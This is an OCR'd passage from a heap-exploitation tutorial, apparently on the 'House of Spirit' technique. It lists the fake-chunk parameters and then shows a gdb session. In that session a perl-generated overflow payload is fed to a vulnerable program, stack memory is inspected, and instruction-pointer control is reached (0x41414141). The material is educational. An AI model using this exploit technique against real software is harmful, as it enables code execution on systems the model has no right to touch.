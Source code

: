    (target) Value to overwrite.
   (mem)  Data of fakechunk.
   (val1) Size of fakechunk.
   (val2) Size of next chunk.


If this happens, control will be in our hands:

[-----]

blackngel@linux:~$ gdb -q ./hos
(gdb) disass fvuln
Dump of assembler code for function fvuln:
0x080481f0 <fvuln+0>:	push   %ebp
0x080481f1 <fvuln+1>:	mov    %esp,%ebp
0x080481f3 <fvuln+3>:	sub    $0x28,%esp
0x080481f6 <fvuln+6>:	mov    0xc(%ebp),%eax
0x080481f9 <fvuln+9>:	mov    %eax,-0x4(%ebp)
0x080481fc <fvuln+12>:	movl   $0x100,(%esp)
0x08048203 <fvuln+19>:	call   0x804f440 <malloc>
..........
..........
0x08048230 <fvuln+64>:	call   0x80507a0 <strcpy>
..........
..........
0x08048252 <fvuln+98>:	call   0x804da50 <free>
0x08048257 <fvuln+103>:	movl   $0x28,(%esp)
0x0804825e <fvuln+110>:	call   0x804f440 <malloc>
..........
..........
0x080482a3 <fvuln+179>:	leave  
0x080482a4 <fvuln+180>:	ret    
End of assembler dump.

(gdb) break *fvuln+19          /* Before malloc() */
Breakpoint 1 at 0x8048203

(gdb) run `perl -e 'print "A"x32 . "\x18\xf3\xff\xbf"'` 48
.........
..........
Breakpoint 1, 0x08048203 in fvuln ()
(gdb) x/4x $ebp-4   /* 0x30 = 48 */
0xbffff314:	0x00000030	0xbffff338	0x080482ed	0xbffff702

(gdb) x/4x $ebp-4+48   /* 8 < 0x12c < av->system_mem */
0xbffff344:	0x0000012c	0xbffff568	0x080484eb	0x00000003

(gdb) c
Continuing.

PTR1 = [ 0x80c2688 ]
PTR1 = [ 0xbffff318 ]

AAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
